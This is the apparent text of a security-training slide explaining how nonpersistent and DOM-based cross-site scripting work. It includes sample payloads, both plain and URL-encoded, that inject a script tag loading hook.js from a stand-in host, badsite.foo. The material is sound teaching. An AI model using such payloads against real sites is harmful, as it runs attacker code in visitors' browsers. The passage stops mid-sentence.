

# Cross-Site Scripting (XSS)
A cross-site scripting (XSS) attack exploits the fact that the browser is likely to trust scripts that appear to come from a site the user has chosen to visit. XSS inserts a malicious script that appears to be part of the trusted site. A nonpersistent type of XSS attack would proceed as follows:
The attacker identifies an input validation vulnerability in the trusted site.
The attacker crafts a URL to perform a code injection against the trusted site. This could be coded in a link from the attacker’s site to the trusted site or a link in an email message.
When the user clicks the link, the trusted site returns a page containing the malicious code injected by the attacker. As the browser is likely to be configured to allow the site to run scripts, the malicious code will execute.
For example, with no input sanitization, a threat actor could type the following into a new post text field:
Check out this amazing <a href="https://trusted. foo">website</a><script src="https://badsite.foo/ hook.js"></script>.
Users viewing the post will have the malicious script hook.js execute in their browser.
An exploit against a client-side script could work as follows:
The attacker identifies an input validation vulnerability in the trusted site. For example, a message board might take the user’s name from an input text box and show it in a header. https://trusted.foo/messages?user=james
The attacker crafts a URL to modify the parameters of a script that the server will return, such as the following: https://trusted.foo/messages? user=James%3Cscript%20src%3D%22https%3A%2F% 2Fbadsite.foo%2Fhook.js%22%3E%3C%2Fscript%3E
The server returns a page with the legitimate DOM script embedded, but containing the parameter: James<script src="https://badsite.foo/hook. js"></script>
The browser renders the page using the DOM script